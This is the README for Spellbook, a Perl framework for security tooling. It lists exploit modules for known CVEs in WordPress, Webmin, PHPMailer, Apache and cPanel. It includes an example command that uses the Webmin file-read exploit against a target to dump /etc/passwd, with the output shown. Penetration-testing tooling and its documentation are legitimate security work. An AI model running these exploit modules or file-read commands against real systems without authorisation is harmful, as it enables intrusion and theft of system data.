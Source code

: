 <p align="center">
  <img src="https://heitorgouvea.me/images/projects/spellbook/logo.png" width="120px" height="120px">
  <h3 align="center"><b>Spellbook</b></h3>
  <p align="center">A framework for rapid development of reusable security tools</p>
  <p align="center">
    <a href="https://github.com/htrgouvea/spellbook/blob/master/LICENSE.md">
      <img src="https://img.shields.io/badge/license-MIT-blue.svg">
    </a>
    <a href="https://github.com/htrgouvea/spellbook/releases">
      <img src="https://img.shields.io/badge/version-0.3.7-blue.svg">
    </a>
      <br/>
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/linter.yml/badge.svg">
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/zarn.yml/badge.svg">
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/security-gate.yml/badge.svg">
    <img src="https://github.com/htrgouvea/spellbook/actions/workflows/test-on-ubuntu.yml/badge.svg">
  </p>
</p>

---

### Summary

Spellbook uses FBP: "In computer programming, flow-based programming (FBP) is a programming paradigm that defines applications as networks of "black box" processes, which exchange data across predefined connections by message passing, where the connections are specified externally to the processes. These black box processes can be reconnected endlessly to form different applications without having to be changed internally. FBP is thus naturally component-oriented." [[1]](https://en.wikipedia.org/wiki/Flow-based_programming)

The main focus of this “micro-framework” is turn in reality the rapid development of security tools using reusable patterns of FBP. 

"Third clark law: any sufficiently advanced technology is indistinguishable from magic" - that's why this project is called spellbook.

---

### Download and install

```bash
# Download
$ git clone https://github.com/htrgouvea/spellbook && cd spellbook

# Install libs and dependencies
$ cpanm --installdeps .
```

---

### How to use

```
Spellbook v0.3.6
Core Commands
==============
	Command          Description
	-------          -----------
	-s, --search     List modules, you can filter by category
	-m, --module     Set a module to use
	-h, --help       To see help menu of a module
```

### Example

```
# Searching for exploits 
$ ./spellbook.pl --search advisory

Module: Advisory::CVE_2017_5487
Description: Read usernames leaked on WordPress API
=================================================

Module: Advisory::CVE_2006_3392
Description: Read arbitrary files for servers running Webmin before 1.290 and Usermin before 1.220
=================================================

Module: Advisory::CVE_2016_10045
Description: PHPMailer < 5.2.20 Remote Code Execution PoC 0day Exploit (CVE-2016-10045) (Bypass of the CVE-2016-1033 patch)
=================================================

Module: Advisory::CVE_2021_41773
Description: Exploit path Traversal or RCE in Apache HTTP Server 2.4
=================================================

Module: Advisory::CVE_2023_29489
Description: Exploit for cPanel Reflected XSS - CVE-2023-29489
=================================================
[...]
```

```
# Using an exploit
$ perl spellbook.pl -m Advisory::CVE_2006_3392 --help

Advisory::CVE_2006_3392
=======================
-h, --help     See this menu
-t, --target   Define a target
-f, --file     Define a file to read
```

```
$ perl spellbook.pl -m Advisory::CVE_2006_3392 -t http://172.30.0.15:10000/ -f /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
[...]
```

If you are interested in developing new modules, a good start point is to read the [development guide](/wiki/Developer-Guide).

---

### Docker container

```
$ docker build -t spellbook .
$ docker run -ti --rm spellbook --search exploits
```

---

### Contribution

Your contributions and suggestions are heartily ♥ welcome. [See here the contribution guidelines.](/.github/CONTRIBUTING.md) Please, report bugs via [issues page](https://github.com/htrgouvea/spellbook/issues) and for security issues, see here the [security policy.](/SECURITY.md) (✿ ◕‿◕)

---

### License

This work is licensed under [MIT License.](/LICENSE.md)
